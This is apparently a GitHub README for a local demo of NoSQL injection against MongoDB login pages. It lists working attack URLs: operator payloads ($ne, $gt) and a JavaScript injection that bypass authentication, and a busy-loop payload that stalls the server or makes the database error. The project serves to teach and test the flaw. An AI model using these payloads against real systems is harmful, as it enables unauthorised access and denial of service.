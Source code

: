 # NoSQLInjectionAttackDemo
NoSQLInjectionAttackDemo is website demo for test NoSQL Injection. There are two website demos in this project and all databases are mongoDB
# Requirements
Install web server for example nginx, apache on local computer. On a Debian, Red Hat based system or windows are ok.
# Building
demo   : http://localhost/github/NoSQLInjectionAttackDemo/demo.html

demo_1 : http://localhost/github/NoSQLInjectionAttackDemo/demo_1.html
# Usage
Open url in the browser: http://localhost/github/NoSQLInjectionAttackDemo/demo.html
![image](https://github.com/youngyangyang04/NoSQLInjectionAttackDemo/blob/master/images/demo.png)
Attack URL for demo:
* http://localhost/github/NoSQLInjectionAttackDemo/login/detected_login.php?username[$ne]=2&password[$ne]=r
* http://localhost/github/NoSQLInjectionAttackDemo/login/detected_login.php?username[$gt]=&password[$gt]=

Attack URL for demo_1:
* http://localhost/github/NoSQLInjectionAttackDemo/login/login_1.php?username=1&password=2;return true;}//
无论用户密码是否正确都返回true
* http://localhost/github/NoSQLInjectionAttackDemo/login/login_1.php?username=1&password=2;var date = new Date(); var curDate = null; do { curDate = new Date(); } while((Math.abs(date.getTime()-curDate.getTime()))/100 < 20); return true;}//
将系统延迟20秒，如果改成while((Math.abs(date.getTime()-curDate.getTime()))/1000 < 20); 则可以导致数据库报错